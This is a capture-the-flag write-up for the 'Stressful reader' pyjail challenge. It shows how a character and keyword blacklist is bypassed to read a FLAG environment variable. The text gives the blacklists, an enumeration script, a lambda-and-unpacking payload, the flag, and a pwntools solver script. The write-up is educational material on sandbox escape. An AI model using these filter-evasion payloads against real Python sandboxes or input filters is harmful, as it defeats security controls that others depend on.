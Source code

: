 # Stressful reader

## Description

I want to read an env variable, but I'm getting stressed out because of that blacklist!!! Would you help me plz? :(

## Solution


Looking at the source code, it's clear that we have to use the method `get_var`
to read the `FLAG` env variable. After taking a quick look to `badchars` we also
see that the characters F, L, A, G are blacklisted, so we have to find another
way to compose the word, and it's *highly probable* that `self.F`, `self.L`,
`self.A`, `self.G` can be used for this purpouse.

As usual with pyjails, to start it's a good idea to look at what we are left with.
A little script can help us to see what builtins, special keywords and
characters are able to pass the blacklist.

```py
badchars = [ 'c', 'h', 'j', 'k', 'n', 'o', 'p', 'q', 'u', 'w', 'x', 'y', 'z'
           , 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N'
           , 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W'
           , 'X', 'Y', 'Z', '!', '"', '#', '$', '%'
           , '&', '\'', '-', '/', ';', '<', '=', '>', '?', '@'
           , '[', '\\', ']', '^', '`', '{', '|', '}', '~'
           , '0', '1', '2', '3', '4', '5', '6', '7', '8', '9']


badwords = ["aiter", "any", "ascii", "bin", "bool", "breakpoint"
           , "callable", "chr", "classmethod", "compile", "dict"
           , "enumerate", "eval", "exec", "filter", "getattr"
           , "globals", "input", "iter", "next", "locals", "memoryview"
           , "next", "object", "open", "print", "setattr"
           , "staticmethod", "vars", "__import__", "bytes", "keys", "str"
           , "join", "__dict__", "__dir__", "__getstate__", "upper"]


builtins = ["abs()", "aiter()", "all()", "anext()", "any()", "ascii()", "bin()", "bool()", "breakpoint()", "bytearray()", "bytes()", "callable()", "chr()", "classmethod()", "compile()", "complex()", "delattr()", "dict()", "dir()", "divmod()", "enumerate()", "eval()", "exec()", "filter()", "float()", "format()", "frozenset()", "getattr()", "globals()", "hasattr()", "hash()", "help()", "hex()", "id()", "input()", "int()", "isinstance()", "issubclass()", "iter()", "len()", "list()", "locals()", "map()", "max()", "memoryview()", "min()", "next()", "object()", "oct()", "open()", "ord()", "pow()", "print()", "property()", "range()", "repr()", "reversed()", "round()", "set()", "setattr()", "slice()", "sorted()", "staticmethod()", "str()", "sum()", "super()", "tuple()", "type()", "vars()", "zip()", "__import__()"]

keywords = ["False", "await", "else", "import", "pass", "None", "break", "except", "in", "raise", "True", "class", "finally", "is", "return", "and", "continue", "for", "lambda", "try", "as", "def", "from", "nonlocal", "while", "assert", "del", "global", "not", "with", "async", "elif", "if", "or", "yield"]


print("=== Available builtins ===")

for b in builtins:
    if (all(x not in b for x in badchars) and (b not in badwords)):
        print(b)

print("=== Available keywords ===")

for k in keywords:
    if (all(x not in k for x in badchars) and (k not in badwords)):
        print(k)

print("=== Available chars ===")

for i in range(32,256):
    if (chr(i) not in badchars):
        print(chr(i))
```


Keeping in mind that we want to use the object variables to compose "FLAG", we
see that we have some useful functions to access the object properties, like
`dir()`. Also, we have the characters to form `self.get_var()`, which is *really
good*.

Since we have the source code, we can run the jail locally with the blacklist
check removed to look at the output of `print(dir(self))` (we have to remove the
blacklist since in the actual jail `print` is blacklisted):

```py
# run locally after removing the blacklist
> print(dir(self))
['A', 'F', 'G', 'L', '__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__
', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_
_weakref__', 'get_var', 'run_code']
```

So, `dir(self)` (which we can use) gives us the list of the names of the
object's properties. If we can find a way to access them and compose 'FLAG', we
are done. We don't have an easy way of accessing the list elements, since
numbers are blacklisted. The crucial point here is to realize that we have not
only builtin functions, but also some special characters like '+' or '\*' that
in python have a special meaning: '+' is also the string concatenation operator,
and '*' can be used to [unpack a list](https://treyhunner.com/2018/10/asterisks-in-python-what-they-are-and-how-to-use-them/)
in many positional arguments for a function. This means that we can form 'FLAG'
following this idea:

```py
> def win(arg1, arg2, ..., argn):
     return arg1 + arg3 + arg0 + arg2

> win(*dir(self))
  'FLAG'
```

But of course we can't write all that stuff in the jail... or can we? We can use
a `lambda` function!

`dir(self)` has 33 elements, so we need a function that takes 33 arguments and
performs the concatenation of the ones corrisponding to 'FLAG'. We can use the
permutations of the chars 'f','l','a','g','s' (or any of the available chars) to
form the name of the arguments, and this can be done easily with a script.

The final payload would look like this:

```py
> self.get_var((lambda flags,flasg,flgas,flgsa,flsag,flsga,falgs,falsg,fagls,fagsl,faslg,fasgl,fglas,fglsa,fgals,fgasl,fgsla,fgsal,fslag,fslga,fsalg,fsagl,fsgla,fsgal,lfags,lfasg,lfgas,l
fgsa,lfsag,lfsga,lafgs,lafsg,lagfs: flasg + flgsa + flags + flgas)(*dir(self)))

snakeCTF{7h3_574r_d1d_7h3_j0b}
```

After all this stress, we finally got the flag!


### Solver

```py

#!/usr/bin/env python3

from pwn import *
from itertools import permutations

context.log_level = 'error'

HOST = args.HOST if args.HOST else "localhost"
PORT = args.PORT if args.PORT else 12003

r = remote(HOST, PORT)

params = []
perm = list(permutations("flags"))

for i in range(33):
    params.append(''.join(perm[i]))

payload = f"self.get_var((lambda {','.join(params)}: {params[1]} + {params[3]} + {params[0]} + {params[2]})(*dir(self)))"
print(payload)

r.sendlineafter(b"> ", payload.encode('ascii'))
print(r.recvline().decode())
```
